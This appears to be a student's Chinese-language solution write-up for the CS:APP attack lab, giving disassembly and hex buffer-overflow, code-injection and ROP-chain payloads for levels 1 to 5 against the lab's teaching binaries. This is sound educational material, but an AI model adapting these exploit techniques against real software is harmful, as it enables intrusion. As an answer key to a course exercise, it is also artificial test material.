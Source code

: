 attack lab
### 和实验内容相关的指令 ###
1.sudo gcc -c asm.s(asm.s中存放汇编代码)
2.objdump -d + 文件名(可以查看上一步中生成的机器码，或者查看题目文件的汇编代码)
3.cat cookie.txt | ./hex2raw | ./rtarget(用于确认答案)

### 1.level1 ###
要求:getbuf返回到touch1
先反汇编getbug，如下
```python
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
这不就是"a"* 0x28+ad_touch1,touch1地址为0x4017c0
payload如下
```python
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
```

### 2.level2 ###
要求:ret touch2时，touch2的参数需要为cookie(一开始以为栈的地址是随机的，没想到是固定的，而且可写可读)
rsp_ad=0x5561dc78,cookie=0x59b997fa，touch2_ad=0x4017ec
mov %0x59b997fa,%rdi的机器码为bf fa 97 b9 59，ret的机器码为c3
payload如下
```python
BF FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00
```
一开始mov $0x59b997f，%rdi,没加$，导致反汇编的机器码一直是错的......

### 3.level3 ###
要求:ret touch3时，touch3的参数需要指向cookie
cookie=0x59b997fa,ad->cookie=0x5561dc7e,touch3=0x4018fa
payload
```python
bf b0 dc 61 55 c3 fa 97 b9 59 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39
39 37 66 61 00 00 00 00
```
没看懂这个题目的要求，我以为那个cookie为0x59b997fa，16进制填fa 97...就可以了，结果是每一位都要用ascii的形式表达
，然后注意字符串的位置要在ret 后面

### 4.level4 ###
要求:实现level2通过他给的gadgets
rtarget用objdump反汇编出来看不到gadgets就离谱，于是我默默的输入了ROPgadget，
pop_rdi=0x40141b,cookie=0x59b997fa,touch2_ad=0x4017ec
payload
```python
BF 7E DC 61 55 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 1B 14 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 EC 17 40 00 00 00 00 00
```

### 5.level5 ###
要求:实现level3，栈地址开了随机化，这就有点东西了，
gets_ad=0x401b60,ad=0x00605000，touch3_ad=0x4018fa
pop_rdi=0x000000000040141b,pop_rsi=0x0000000000401383，
思路:还是和level3一样，问题是怎么得到栈的地址,我一开始想的是通过mov rsp,rdi；但是我反汇编出来的没有mov rsp,rdi或者其他可以利用传rsp的就很离谱(通过read将字符串读到可写段上应该也可以，只是，由于hex2raw的问题，不好控制输入)
payload(参考https://blog.csdn.net/weixin_41256413/article/details/80463280)
```python
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1a 40 00 00 00 00 00 c5 19 40 00 00 00 00 00 ab 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 dd 19 40 00 00 00 00 00 34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00 d6 19 40 00 00 00 00 00 c5 19 40 00 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```